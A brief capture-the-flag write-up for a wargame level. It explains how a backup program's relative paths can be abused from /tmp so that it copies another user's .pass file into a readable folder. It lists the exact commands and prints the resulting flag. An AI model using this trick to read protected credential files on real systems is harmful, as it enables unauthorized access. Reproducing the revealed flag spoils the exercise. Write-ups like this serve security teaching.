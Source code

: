 We have an executable that asks for a filename as parameter.
It first opens a file ./backups/log (exit if fail)
It opens the file and then proceeds to store the result in a backup file it creates.
It tries to create a file in ./backups/ + path of initial file

If any of these open fail it exits.
We just need to make sure the program has access to the expected folder structure

As it creates a relative path, we can execute the program from anywhere and it will create the file were we are.

We can then cd into /tmp to make sure we have the necessary rights.

```
cd /tmp
mkdir -p /tmp/backups/home/users/level09/
~/level08 /home/users/level09/.pass
cat /tmp/backups/home/users/level09/.pass
```

Flag

```
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
